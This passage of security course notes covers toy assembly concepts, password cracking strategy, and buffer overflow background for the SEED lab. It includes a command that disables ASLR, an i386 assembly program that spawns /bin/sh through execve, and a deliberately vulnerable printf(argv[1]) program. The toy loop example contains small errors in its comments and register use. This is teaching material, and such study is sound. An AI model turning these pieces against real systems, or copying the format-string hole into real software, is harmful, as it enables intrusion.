Since we have thus far assumed that instructions start at memory address 0, this would mean that \inlinedcode{PC_BASE} is set to 0. Thus, any offsets from \inlinedcode{PC_BASE} will be 0 + offset. This also means that we can move the instructions to any part of memory and just set \inlinedcode{PC_BASE} accordingly when the program starts. Notice that all of these offsets, while technically are calculated relative to the value of a register (\inlinedcode{PC_BASE}), since the value of \inlinedcode{PC_BASE} doesn’t change throughout any execution of the program, these offset addresses are still direct. A quick extension of this idea will show that PC based offsets are also direct.

\subsubsection{More Conditionals}

We now have a way to support things like loops by introducing conditional jumps (which are basically \inlinedcode{MOV}s but with the destination being the PC register and where the update only works if a register does not contain the value 0). If you are wondering what about conditions such as ZERO or GREATER THAN, then I want you to convince yourself that you can support these by creating meta instructions using the other ALU operations. For example, ZERO can be supported as \inlinedcode{JNZ_C +0x8} followed by the \inlinedcode{JMP} instruction.  The \inlinedcode{JNZ_C +0x8} will ensure that if it is not zero, we will skip the next instruction and if it is zero we will process the next instruction which happens to be a JMP to the intended target. Once again, what you can do is left up to your imagination.

We have also introduced two potential problems with having the ability to write to the PC. First, we have indirect jumps where what we are writing to the program counter might not be known until you start executing the instruction stream. This also means that anyone who controls the contents of the source register or memory will also control what instructions will be executed next. The second thing we learned (really first in terms of when we introduced it) is that in the case of variable length instructions, we can have alternative instruction streams that could prove problematic. 

As a quick side note, CPUs normally include a special Flags Register where each bit represents a specific condition and is updated after each and every single operation is executed - e.g. one bit is used to signal whether the previous operation resulted in a 0 (Zero Flag) and another is used to signal whether the previous operation resulted in a negative value (Sign Flag). In this way, the conditional jumps can then be based on the condition (or status) of specific bits in the Flags Register. 

Now that we know how to support loops (and naturally conditional processing - if statements - in general) you might be wondering about functions, which is a very nice way to organize code. This will be the last topic of discussion in this introduction to assembly.

\subsection{Functions}

In reality, as long as you understand the ability to perform jumps or branches then you should understand functions. Functions is just an added layer of abstraction on top of jumps by introducing meta instructions that save the current value of the PC so it can be restored later. Just like the PC, we can support this by introducing another register that we can call RR for the Return Register (ARM calls it the link register and x86 doesn’t have such a thing).

Once we introduce this new register, the difference between a function call and a normal jump is that when we “call” a function, we expect to continue execution at the next instruction after the function we called “returns”. This is achieved by automatically storing the value of the next instruction in the RR register prior to transferring control to the function being called.

Let’s consider the following sample assembly based on the example above where the instructions start at address 0x12345678. This time, I prepended each instruction with it’s memory address for easier understanding.

\begin{code}
0x12345678:	JMP 0x1234568C
0x1234567C:	MOV_C 0xA, R0 # R0 = 10
0x12345680:	SUB_C R0, 0xA, R0 # R0 = R0 - 1
0x12345684:	JNZ_C R1, -0x4 # if R1 == 0 then first byte of next instruction is 8 bytes before current instruction
0x12345688:	MOV RR, X, PC # PC = RR
0x1234568C:	ADD_C PC, 0x8, RR # RR = PC + 0x8 = 0x12345694
0x12345690:	JMP_C -0x14 # PC = PC - 0x14 = 0x1234567C
0x12345694:	END
\end{code}

As you can see, the first thing this little assembly code snippet does is to jump to 0x1234568C. From there the value of RR is updated to where the END instruction would be followed by a offset based jump to 0x1234567C. The instructions will execute in a loop decrementing R0 from 10 until R0 is 0. At this point, the JNZ instruction at 0x12345684 won’t be taken and the next instruction executed which restores PC to the saved address of 0x12345694 which means the next instruction is \inlinedcode{END}.

Now I wrote the previous example in the way I did to illustrate that the boundaries of a “function” can be seen in between addresses 0x1234567C and 0x12345688 (inclusive). Additionally, we can also consider creating a new meta-instruction using the instructions at 0x1234568C and 0x12345690. This new instruction can be the CALL instruction where we can “CALL” the function starting at offset -0x14 which is the function at 0x1234567C. Similarly, the instruction at 0x12345688 can be called the \inlinedcode{RET} instruction since it restores the value in the Return Register (RR) back into the PC. 

This illustration is important to show that once again, we can build more and more complex functionality using the basic operations we defined for the ALU initially. This should also give you a sense of why understanding the fundamentals of how these things work might help you better understand the exercises in the last couple of assignments.

The final thing that you might have observed is that using the RR might give us the ability to store a return address, but it is limited to having function calls being one deep. Meaning if we have a function f() that calls g(), g() cannot call another function and furthermore no other function could have called f(). 
1.5.4  Nested Function Calls
As you would likely guess, we can solve this problem by introducing another register file for storing the return addresses as well as another special register (let’s call it RC) to keeping track of where the current Return Register value is. In this way, we will have three separate register files, the infinite registers for data, the infinite registers for instructions and the infinite registers for control data (e.g., return addresses). 

Just like how the \inlinedcode{JMP} instruction is then a special case of the \inlinedcode{MOV} instruction that uses the PC as the implied destination operation, we can introduce new instructions such as CALL that not only stores the value of the next instruction into RR and then moves the target into the PC register as discussed previously, but now \inlinedcode{CALL} will actually first increment RC so it will refer to the next available register in the Return Registers register file, and then stores the value of the natural next instruction into that return register followed by the \inlinedcode{JMP}. 

Similarly, \inlinedcode{RET} will not only load the value of the current Return Register (specified by RC) into the program counter PC, but it will also automatically decrement RC (notice how this increment and decrement behavior of mimics that of a stack - this is expected).

As a quick note, this design where the control data (Return Registers) and regular data (Registers) are separated from each other is known as a Harvard Architecture. A Von-Neumann Architecture is one where there the two aren’t separated. This makes a bit more sense when we consider how wasteful it might be to create a completely separate register file just for storing return addresses when we don’t even know how deep function calls can be. 

\section{Mapping Register Files into Memory}

At any rate, similar to how we took the infinite single-byte instruction registers and mapped it into memory, we can do the same with the return registers. In fact, if we think about the entirety of memory (let’s say 4GB of it) we might want to segment the memory into 4 equal sized chucks where the first GB is used for instructions, second GB for regular data, third GB for return addresses and finally the last GB for special things such as privileged access to devices or the kernel. We will expand on this when we discuss segmentation.

Furthermore, the observation that the increment and decrement behavior of the RC makes the series of Return Registers seem like a stack should give us enough motivation to implement or introduce additional instructions such as \inlinedcode{PUSH} and \inlinedcode{POP} that will treat a portion of memory (e.g., the third GB mentioned above) as a stack. 

The only question that remains is whether the stack grows up from low memory to high or grows down from high memory to low. In either case, we will need to introduce yet another special register to keep track of where the top of the stack is (both ARM and x86 calls it the Stack Pointer register). In the case of stacks growing up towards high memory PUSH will add the number of byte pushed to the stack pointer register and subtract from it if the stack grows down. While the details are different, the fundamental idea of a segment of memory behave like a stack is the same. 

Finally, as a quick note, the idea of dedicating a section of memory to behave like a stack is basic. While we got to this point by saying that the chain of function calls can be naturally represented as a stack, it doesn’t mean that the stack can only be used to store return addresses. In fact, modern systems normally like to use the stack to store both return addresses as well as data that is local to the current instantiation of a function being called. We call the boundaries between the different function instantiations “frames.” 

\section{Conclusion}
We will end this introduction to assembly here. More details on how this applies to x86 can be found in the assignment notes. 

All in all, we have effectively built up from basic digital logic elements up to a fairly sophisticated processor by introducing more and more complex abstraction layers. Each layer introduced new operations which we have shown to be built up of a combination of operations found in the underlying abstraction layers. 

We have also shown that by introducing more and more specialized registers and indirection, we have opened up more and more opportunities for errors to occur since these specialized registers can also be written to (the registers or memory that the value is loaded from can also be written to) leading to difficulties in predicting what the values could or should be (think Control Flow Integrity) and in the case of variable length instructions perhaps even completely different and unexpected instruction streams.


\chapter{Notes for the Password Cracking Assignment}

One of the things we want to focus on this class is the idea of thinking about security in a systematic way. This means to try to think about it in a repeatable and almost formal way. How can we do this for the problem of password cracking? 

Well let’s think of a model for password cracking.


\includegraphics[width=5in]{Assignments/images/PasswordCracking_1}

If we think of what a “password” is, then we know that a password is just a series of ‘characters’ of a certain length. This seems like a set type of problem, meaning we will try to reason about this in a Venn diagram.

Now that we have the big giant set, let’s start thinking about different subsets such as the subset of all passwords of a lesser length (note the use of “up to”)

Let us also include other subsets.

Now that we have a good idea, let’s start thinking about the process of password cracking. First is the dictionary attack that consists of only English words. Note that instead of “dictionary” it is best to think of this type of attack as a “wordlist” since a dictionary is a list of words, but there can be other lists that aren’t made up of real words that might appear in a dictionary in the traditional sense. Either way, this is a very nice attack since it fits in directly over the set of passwords that are simply “English words of length up to n.”

What about our second approach that uses a dictionary of previously cracked passwords?

Now if we think about this a bit more, we might notice that each successive dictionary or wordlist is represented by yet another sub-set. The same applies to perturbations to the wordlists - such as prepending 2 numbers in front of the wordlist to generate the ‘salted’ passwords in formspring.

If you then think about all of the wordlists and perturbation rules (called ‘masking’ in hashcat or ‘mangling’ in John the Ripper) then we might see a venn diagram such as the one below. We can also clearly see that the goal of choosing a ‘good’ password is to choose one that is not covered in any of the sub-sets (look for the ‘X’)

Okay, now given this, let’s talk about the ‘brute force’ mode. The idea of ‘brute’ force is to tray all possible combinations, which means we want the entire set. This obviously covers the ‘X’ meaning it will recover ANY password chosen from the set.

While this is problematic from a theoretical point of view, we also quickly realize that while we can cover the entire space, we can’t do it all at once. We have to do it step by step. One such way is to simply iterate through all possible combinations linearly as depicted by the arrows. It will takes a while to get to the X using our current trajectory that goes from left to right and top to bottom (whatever that might mean). It might be faster to go down and up and then left to right (whatever that means).

The above diagram is how most people think of ‘brute force’. A dumb way of simply iterating through the space. However, note that we defined ‘brute force’ as trying all possible combinations. The how we traverse through this space is part of the ‘strategy’ for brute forcing. What is a better strategy? What about one that starts with the dictionary or wordlist attacks first? Followed by previously cracked passwords followed by perterbations on them? The following diagram should look familiar.

What I want you to see here is basically that wordlist or dictionary attacks should simply be thought of as the first stages of a ‘brute force’ attack because it is a subset. It should be part of your strategy. Furthermore, I want you to see that the strategy for choosing a ‘good’ password does not change much. Instead of saying that we want to choose a password ‘X’ that is outside of the wordlists, we are basically saying that we want to choose a password ‘X’ that will not be covered by the first m stages of a prioritized brute force attack. A good rule of thumb is where m is big enough so that it will take an attacker a certain amount of time to crack - e.g. one year’s time. This naturally means that it must not be part of any wordlist attack!
One way to calculate how long it might take for an attacker to crack your password is by assuming that the attacker will use a “random” strategy where passwords to try are chosen randomly from the set of passwords that haven’t been tried yet (the light blue in the diagram above since the yellow parts have already been tried). The random guess is a very common technique. This is the source of a common password policy which is to use randomly generated passwords - good for security, but bad when it comes to the principle of psychological acceptability.
One approach to reduce the likelihood of an attacker guessing your password within that 1 year time frame (or however long you desire) is to increase the size of the light-blue space without increasing the size of the wordlists, meaning there will be so many more possible possible passwords within the non-wordlist set that randomly guessing the password will cover a smaller portion of the overall space and therefore result in a less likelihood of having your password. This is the same fundamental idea behind the increase in key-sizes in cryptographic algorithms. Graphically it looks like this. This is one way to reason about why it makes sense to use “passphrases” versus “passwords” because passphrases, while they are made up of dictionary words, are so long that the likelihood of guessing the new password is very low.

It should be clear that another way to decrease the likelihood of success is to increase the time it takes to calculate the hash. This reduces the number of possible passwords attackers can try within that 1 year timeframe (or however long you want). This is why you might want to use bcrypt instead of sha256 for example.
One thing we didn’t discuss here is the concept of pre-calculated hashes known as a rainbow-table attack. (Note that because we focus on the fundamental concepts in this course, the definition of rainbow-table is a ‘pre-calculated table of hashes’ versus what you might find online which normally consists of a specially designed hash tree structure.). It is actually a different dimension that isn’t calculated here, but it is interesting for you to consider.
FInally, it might also be interesting to think about how “salting” passwords can either increase or decrease the likelihood of finding the password. One way of thinking about this is by relating “salting” to mangling rules. This should give you some insights into how much does salting help. Ask yourself if the simple salt used in Formspring really made dictionary attacks that much more difficult? Did it really only increase the size of the dictionary by 100 fold?


\chapter{Notes for the Buffer Overflow Assignment}

\section{Additional Concepts}
In addition to completing the buffer overflow assignment, you should understand the following concepts.

\subsection{What is a segmentation fault and why do I get one?}

In short, a segmentation fault is an exception that is thrown when a memory address that you are trying to access is invalid. Since we rarely use segmentation and instead use paging, it is an exception that is thrown when you try to access memory that is either not mapped (i.e. there is no virtual to physical address translation) or if the memory page is not mapped correctly (i.e. you want to write to a read only page). This can be demonstrated using a simple c program. 

\begin{code}
int main(void)
{
  int *ip = 0;
  *ip = 0;
  return (0);
}
\end{code}

We get a segmentation fault because we are trying to write a value of {\tt 0} to the address {\tt 0} on line 4, which is not mapped in Linux environments (such as SEED). Since the address is not mapped, we can’t access it and thus we will get a segmentation fault.

To illustrate the second case, we can try to perform a write to a page that is mapped, but is not mapped for writing. A good choice would be the memory page where {\em main} is located. Since the {\em main} function is executable, the default behavior is to map the page as executable and read only. Thus writing to the code page will not be allowed.

\begin{code}
int main(void)
{
  *((int*)main) = 0;
  return (0);
}
\end{code}

You can verify that we can indeed read from the code page (i.e. that the memory address is valid) by performing a read instead of a write. I leave that to you as an exercise.

As an additional exercise, I highly suggest that you try to write a simple program to execute code on the stack when no-exec-stack (NX) is enabled. A good place to start is with the sample shellcode program from the assignment description itself.

A related question that students have asked in the past is what is an illegal instruction error. I will let you figure that out, but if you get that it would mean that the address is valid and the page is executable. 

\subsection{What is the significance of the NOP sled?}

A long time ago, guessing the address of something (such as on the stack) was fairly easy because there was a limited number of systems with a limited number of configurations. Today, diversity and address space layout randomization has made predicting such addresses difficult. We can illustrate the problem due to diversity here. 

System diversity (versus monoculture) means that each system will have a different configuration. Configuration includes the operating system installed as well as the software installed and even configuration options. One of the clearest examples of differences in configuration is ``Environment Variables.''

An environment variable is a shell configuration option. For example, many programmers have had experience with setting the {\em PATH} variable. To see what the current path variable value is we can either use the {\em env} command or simply echo the variable contents to the terminal.

\begin{code}
seed@SEED:~$ env | grep "^PATH="
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

seed@SEED:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
\end{code}

Given this, we almost know enough to see how changing the environment variables might change offsets. It is important to first recognize how a program is executed and where the parameters go. 

In linux, a program is executed through the {\em fork}, {\em exec} combo. {\em fork} is a system call that creates an exact copy of the calling process, and {\em exec} is a system call that replaces the currently executing program with a new program (i.e. new executable code). 

In a nutshell, the {\em init} process is the first process that is created when the system is booted. To start a new process, the {\em init} process will fork itself (now there are two copies of {\em init}) followed by an exec to start the new process, e.g. the bash shell. Similarly, when you start a new program in {\em bash}, {\em bash} will fork itself to make a new copy and then the new copy will exec the new program. (For those of you who are adventurous, you can start to dig deeper into this process and try to figure out why fork/exec is great for performance when it comes to the Zygote process in Android, but also poses a challenge for enabling address space layout randomization for Android processes.)

Given we know that new processes are effectively started with fork followed by exec, we can now focus on the exec system call. {\em execve} (the real name) has the following prototype:

\begin{code}
int execve(const char *filename, char *const argv[], char *const envp[]);
\end{code}

The first parameter is the file to execute (i.e. path of the new program), the second is a pointer to an array of c-strings (i.e. char*) that contains the arguments to the program and finally the last is a pointer to the environment variables. These are the same environment variables that were discussed above.

The next natural question to ask is where does all of this information go? How does the program know what the arguments are? What is the protocol or the API or the ABI equivalent - what is the agreed upon language or specification?

If you recall, function calls are made such that the parameters are pushed onto the stack in reverse order. Linux takes the same basic idea when exec-ing new programs. The standard is to push all of the environment variables onto the stack first, followed by the arguments. Then control is transferred to the new program.

What this means is that if we change the environment variables, then the location of local variables on the stack should also change because more stuff have to be pushed onto the stack. We can test this theory out by writing another simple program. 

\begin{code}
#include <stdio.h>

int main(void)
{
  int i = 0;
  printf ("Address of i is: [%p]\n", &i);
  return (0);
}
\end{code}

Now before we compile and execute the program, we have to isolate our variables first by disabling address space layout randomization. If we forget this step, then we will get random addresses, making the results less obvious.

\begin{code}
seed@SEED:~/TEST$ cat /proc/sys/kernel/randomize_va_space 
2
seed@SEED:~/TEST$ echo 0 | sudo tee /proc/sys/kernel/randomize_va_space 
[sudo] password for seed: 
0
seed@SEED:~/TEST$ cat /proc/sys/kernel/randomize_va_space 
0
\end{code}

Once we compiled this and execute it, we should see something like this: 

\begin{code}
seed@SEED:~/TEST$ gcc env_test.c
seed@SEED:~/TEST$ ./a.out 
Address of i is: [0xbffff0a8]
seed@SEED:~/TEST$ ./a.out 
Address of i is: [0xbffff0a8]
seed@SEED:~/TEST$ ./a.out 
Address of i is: [0xbffff0a8]
\end{code}

Notice how the address that is printed out is consistent, telling us that ASLR is indeed disabled.

Given this, we can now play with the environment variables to see how the addresses change. For example:

\begin{code}
seed@SEED:~/TEST$ export TEST_ENV=hi
seed@SEED:~/TEST$ ./a.out 
Address of i is: [0xbffff088]
seed@SEED:~/TEST$ export TEST_ENV=bye
seed@SEED:~/TEST$ ./a.out 
Address of i is: [0xbffff088]
seed@SEED:~/TEST$ export TEST_ENV=byeworld
seed@SEED:~/TEST$ ./a.out 
Address of i is: [0xbffff088]
seed@SEED:~/TEST$ export TEST_ENV=byeworldyouaretoocruel
seed@SEED:~/TEST$ ./a.out 
Address of i is: [0xbffff078]
seed@SEED:~/TEST$ export TEST_ENV=
seed@SEED:~/TEST$ ./a.out 
Address of i is: [0xbffff088]
\end{code}

If you look at the output, you should see that once I exported the new environment variable, the address went down from {\tt ...a8} to {\tt ...88}. What this means is that the addition of the {\em TEST\_ENV} variable (which in memory will look something like ``TEST\_ENV=hi'', a 12 byte c-string) have effectively pushed the contents of the stack further down in memory (remember stack grows down, so the more stuff you push into the stack the lower the address of the things towards the top of the stack will be). 

What is interesting is that adding an additional byte (changing our test variable from ``hi'' to ``bye'') did not change the address of the variable. In fact, it didn’t change until we added many more characters to the environment variable. Why is this? Because of alignment. 

I will leave it to the student to reason as to why resetting the {\em TEST\_ENV} to the empty string will move the address back up. I will also leave it to the student to run similar tests to see how adding arguments can also change the address of things in memory.


As an aside, export sets the environment variables permanently for the session, you can set them temporarily by prepending the program call with the environment you want to set, for example:

\begin{code}
seed@SEED:~/TEST$ TEST_ENV=helloworldyouaregreat ./a.out 
Address of i is: [0xbffff078]
seed@SEED:~/TEST$ ./a.out 
Address of i is: [0xbffff088]
\end{code}

Given all of this, I hope it is a bit more clear why you would want a NOP sled. It is hard to figure out what the address on the particular machine you are targeting is going to be, so why not give yourself some wiggle room. 

\subsection{How do system calls work?}

As discussed in class, a system call is just another interface similar to a library. It is just another abstraction layer. As with any abstractions, we need a specification as how to to interface with each other. 

Linux actually has many standards one corresponding to each hardware architecture. To get a list, you can try {\em man 2 syscall} in your seed ubuntu machine. You should find something like the one shown in table \ref{table:man_syscall}. We didn't copy the entire table and ended with i386 because that is the system that we are dealing with. The table readily tells us which register is tasked with holding which parameter/argument. Notice how this is different from the function calling standard where the arguments are pushed onto the stack. In fact there is a ``fast call'' standard for function calls that uses registers instead of the stack. Interested students and go and look that up.

\begin{table}
\begin{tabular}{l l l l l l l l l} \\ 
       arch/ABI     & arg1 & arg2 & arg3 & arg4 & arg5 & arg6 & arg7 & Notes \\ \hline
       arm/OABI     & a1   & a2   & a3   & a4   & v1   & v2   & v3 \\
       arm/EABI     & r0   & r1   & r2   & r3   & r4   & r5   & r6 \\
       arm64        & x0   & x1   & x2   & x3   & x4   & x5   & - \\
       blackfin     & R0   & R1   & R2   & R3   & R4   & R5   & - \\
       i386         & ebx  & ecx  & edx  & esi  & edi  & ebp  & - \\
\end{tabular}
\label{table:man_syscall}
\end{table}


Given this information, we should now have an idea of how system calls are made. We can illustrate this using an example. 

\begin{code}
.global _start

.text
_start:
  mov $11, %eax
  mov $shell, %ebx
  mov $argv, %ecx
  mov $0, %edx
  int $0x80

  mov $1, %eax
  mov $0, %ebx
  int $0x80

.data
shell:
  .ascii "/bin/sh"
  .long 0

argv:
  .long shell
  .long 0
\end{code}

If we compile the above program and executed it, we should then get a shell. Notice the need for {\em -nostdlib} in the gcc command which basically states that we don’t want libc. 

\begin{code}
seed@SEED:~/TEST$ gcc -nostdlib exec.s
seed@SEED:~/TEST$ ./a.out 
$ exit
\end{code}

The main question now is what does the assembly program above do?

Let’s start from the top. The first thing we see is {\tt .global \_start} this is used to state that there is a global variable named {\em \_start}. {\em \_start} is the entry point for programs. If you are wondering this is the actual starting point for programs, not main. The main function that we are all used to is actually the start of libc programs if you may. To put it differently, libc abstracts away all of these details by having its own \_start handling routine. That routine will do some setup followed by calling the main function. 

The next big section is the {\tt .text} section, which is the executable or the code section. We will revisit this later. 

The next section is the {\tt .data} section which is used to store global variables (i.e. those variables that are neither on the stack nor the heap). In this section we define two variables (or actually references) the first being {\em shell} and the second being {\em argv}. Notice that the shell variable is the ascii characters ``/bin/sh'' followed by a long (4 byte) of {\tt 0}. Alternatively we could have used ``/bin/sh\textbackslash 0'' to create a c-string.

We also created another variable called argv which has a long with the address of shell followed by a 0 (NULL pointer). This is our pointer of arrays.

Now going back to the code, we can separate it into two major sections corresponding to the two {\em int \$0x80}’s. If you recall, the {\em int \$0x80} instruction is used to transition to the kernel so that we can make system calls. 

The second one is easier to understand so let’s start with that one. Notice there are three instructions that effectively set {\tt eax} to 1, {\tt ebx} to 0 and then make the system call. To interpret this, we must first go and see what system call number 1 is. If you go online and do some googling, you might find that system call 1 is actually exit. 

If you do a {\em man 2 exit}, you will also see that it takes one parameter the exit status. Since the previous table shows us that the first argument goes into {\tt ebx}, these three instructions are the equivalent of calling ``exit(0).'' You can actually test this by commenting out (\#) the first few instructions and then compiling and executing the program and then checking the return code using \$? such as {\em echo \$?}. 

Either way, that explains the second system call. For the first system call, we see that the system call number is 11. As we discussed in class this is for execve, which takes 3 parameters (see above). First is the path, second is the argv and third is envp. As you can see the path is ``shell'' which is actually the c-string ``/bin/sh''. {\tt ecx} is argv which is the array \&shell,0 which is the same as \inlinedcode{argv[0] = "/bin/sh"} and \inlinedcode{argv[1] = NULL}. Finally {\tt edx} is 0 which is the same a NULL.

To see what happens, we can compile the program and execute it as shown above. 


\chapter{Notes for the Format String Assignment}
 
The format string assignment can be a challenging one. Many students seem to think that the format string assignment (just like the buffer overflow assignment) is about exploiting a buffer overflow and exploiting a format string given the stated methodology. This is not thinking like a security professional.  
The security mindset should make you think about vulnerabilities as a means to an end. The end, the consequence is what is important. In this way, you should focus not only how to exploit the vulnerabilities, but how they work as well as how else we can take advantage of them beyond the exercises in the assignments.  
 
In terms of the format string assignment, I personally like to think of format string as just another programming language. The same applies to the buffer overflow assignment of course. In both cases the programming language is a bit strange. They are also extremely limited. However, even simple languages can be extremely powerful as we will see. 
 
In fact some researchers think that a program is simply an emulator. In other words a program is a computer. The inputs that you put into the program are the equivalent of the instructions that are executed. In this model of the world, the challenge then becomes how does one ``write'' a new program for this computer given the language that is restricted by the input protocol. 
 
Let’s take a look at the format string by using the following program. 

\begin{code} 
#include <stdio.h> 
 
int main(int argc, char** argv) 
{
  int i = 0xCAFEBABE;
  char hello[12] = "Hello World\n"; 
 
  if (argc == 2)
  {
    printf(argv[1]);
  }   
  return (0); 
} 
\end{code}
 
